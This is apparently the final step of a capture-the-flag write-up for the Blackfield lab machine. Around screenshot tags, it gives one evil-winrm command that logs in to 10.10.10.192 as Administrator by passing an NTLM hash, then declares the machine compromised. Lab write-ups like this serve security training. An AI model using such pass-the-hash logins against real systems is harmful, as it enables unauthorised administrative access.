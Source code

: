 <img src="/img/Blackfield_Screenshots/Pasted image 20250123105635.png" alt="1" style="width:700px; height:auto;">
<br/>

perform `evil-winrm`.  

```bash
 evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
```

<br/> 
<img src="/img/Blackfield_Screenshots/Pasted image 20250123105833.png" alt="1" style="width:700px; height:auto;">
<br/>

The machine was `pawned` successfully. 
<br/> 